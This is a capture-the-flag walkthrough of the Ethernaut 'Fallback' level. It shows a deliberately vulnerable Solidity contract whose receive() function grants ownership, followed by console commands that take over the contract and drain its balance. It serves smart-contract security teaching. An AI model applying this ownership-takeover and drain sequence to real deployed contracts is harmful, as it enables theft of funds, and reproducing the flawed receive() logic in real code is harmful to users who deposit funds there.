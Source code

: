 # Fallback

## Challenge Description

Look carefully at the contract's code below.

You will beat this level if:

1.  you claim ownership of the contract
2.  you reduce its balance to 0

Things that might help

-   How to send ether when interacting with an ABI
-   How to send ether outside of the ABI
-   Converting to and from wei/ether units (see `help()` command)
-   Fallback methods

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

## Challenge Solution Walkthrough

To become the owner in this challenge, we need to fulfill certain conditions. Let's analyze the functions that can change the owner:

1. **Constructor Function**:

```solidity
constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
}
```

The `constructor()` function is executed only once when the contract is deployed. It sets the initial `owner` as the `msg.sender`. Unfortunately, we cannot execute this function again, so it cannot be used to become the `owner`.

2. **Contribute Function**:

```solidity
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if (contributions[msg.sender] > contributions[owner]) {
        owner = msg.sender;
    }
}
```

The `contribute()` function allows users to contribute to the contract. To become the `owner`, we must meet two conditions:

-   Our contribution (`msg.value`) must be less than `0.001 ether`.
-   Our contribution (`contributions[msg.sender]`) must be greater than the current `owner`'s contribution (`contributions[owner]`).

Given that the `owner` initially contributed `1000 ether`, it would require an extremely large number of contributions and multiple transactions to become the `owner`. This approach is not feasible.

2. **Receive Function**:

```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
}
```

The `receive()` function is triggered when a transaction is sent to the contract without any data but with a value. To become the `owner`, we need to satisfy two conditions:

-   The transaction value (`msg.value`) must be greater than zero.
-   We must have already made a contribution (`contributions[msg.sender]`).

To become the owner, follow these steps:

1.  Open the console and contribute to the contract:

```javascript
> await contract.contribute({ value: "1" })
```

2.  Verify your contribution by running the following command:

```javascript
> (await contract.contributions(player)).toString()
< '1'
```

3.  Send a transaction to the contract without any data, but with a value, to execute the `receive()` function and become the `owner`:

```javascript
> await web3.eth.sendTransaction({from: player, to: contract.address, value: "1"})
```

4.  Verify that you are the new `owner`:

```javascript
> (await contract.owner()) == player
< true
```

If the return value is `false`, it means you are not the `owner`, and you need to retry the process. After becoming the `owner`, you can proceed with the final step.

5.  Drain all the funds from the contract:

```javascript
> await contract.withdraw()
```

6.  Verify that all funds have been withdrawn from the contract:

```javascript
> (await getBalance(contract.address)).toString() == "0"
< "true"
```

Congratulations! You have successfully completed the challenge.

## Challenge Description After Solving

You know the basics of how ether goes in and out of contracts, including the usage of the fallback method.

You've also learnt about OpenZeppelin's Ownable contract, and how it can be used to restrict the usage of some methods to a privileged address.

Move on to the next level when you're ready!
